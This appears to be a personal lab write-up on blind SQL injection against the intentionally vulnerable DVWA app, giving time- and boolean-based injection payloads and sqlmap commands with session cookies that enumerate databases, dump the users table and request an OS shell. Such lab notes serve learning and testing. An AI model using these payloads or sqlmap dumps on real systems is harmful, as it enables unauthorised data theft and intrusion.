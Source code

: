```yaml
---
title: "Blind SQL Injection"
date: 2025-01-30T16:06:04+01:00
draft: false
tags: ["Caido", "Firefox", "Proxy", "Web", "upload"]
categories: ["Hacking"]
---
```


 Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used. 

https://portswigger.net/web-security/sql-injection/blind

Low:

![screenshot](1.png)

```1' and sleep(5)#```

![screenshot](2.png)

This command will help us determine how many columns there are.
1' and order by 1
1' and order by 2


This will verify the length of the database(rows): 
```1' and length(database())=4#```

![screenshot](3.png)

![screenshot](4.png)


Medium:

This one there is no button so you need to use Burp or Caido 

```id=1+and+sleep(5)+Submit=Submit```  will give us a 5 second sleep

![screenshot](5.png)


High:

In this instance, we have a seperate input screen

![screenshot](6.png)

##SQLmap

We would now like to use SQLmap to help automate the process.

Submit something into the field: 1
	- Copy the URL 
	- Take the cookie from the 'inspect' page under 'Storage', 'Cookies'

![screenshot](7.png)	


```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=bdfct00lniuj5o662f8qo13qgg"```

![screenshot](8.png)

![screenshot](9.png)

![screenshot](10.png)

Info:

	Linux | MySQL
	SLEEP: injectable
	UNION: Injectable
	2 Columns 
	
Parameter: id (GET)

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ```id=1' AND 5985=5985 AND 'XjUI'='XjUI&Submit=Submit```

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ```id=1' AND (SELECT 3077 FROM (SELECT(SLEEP(5)))MsJJ) AND 'HcJn'='HcJn&Submit=Submit```

To view the results use sqllitebrowser:
	navigate to: /home/kali/.local/share/sqlmap/output/192.168.10.123
	 sqlitebrowser session.sqlite

![screenshot](11.png)

We can use this command to find the name of the database:
```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" --dbs```

![screenshot](12.png)

Which gives up the name: dvwa
This command will give up the names of the tables:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="P" -D dvwa --tables```

users and guestbook

Command to get the info out of the users table

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --columns```

Or:

```sqlmap -u "http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=gjf1ngm8v1qmiue17rel1qjjtm" -D dvwa --tables -T users --dump```

![screenshot](13.png)

![screenshot](14.png)


So, the other 'guestbook' table was full of my injection attempts. 

![screenshot](15.png)

What seems like an easier way to do this is to create a file containing the GET request. 
Grab the get request from caido/burp
Paste it into Vi or any text editor
use the command: ```sqlmap -r [filename] --dump```

This will give you a dump of everything in all of the databases associated with the website. 

![screenshot](16.png)

![screenshot](17.png)

If you need a shell:
```sqlmap -r [filename] --os-shell``` (I struggled to get this working and didn't have time to explore)

Wizard: Low
```sqlmap --wizard --dump```
Then enter the url: ```http://192.168.10.123/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#```

Wizard: Medium
```sqlmap --wizard --dump```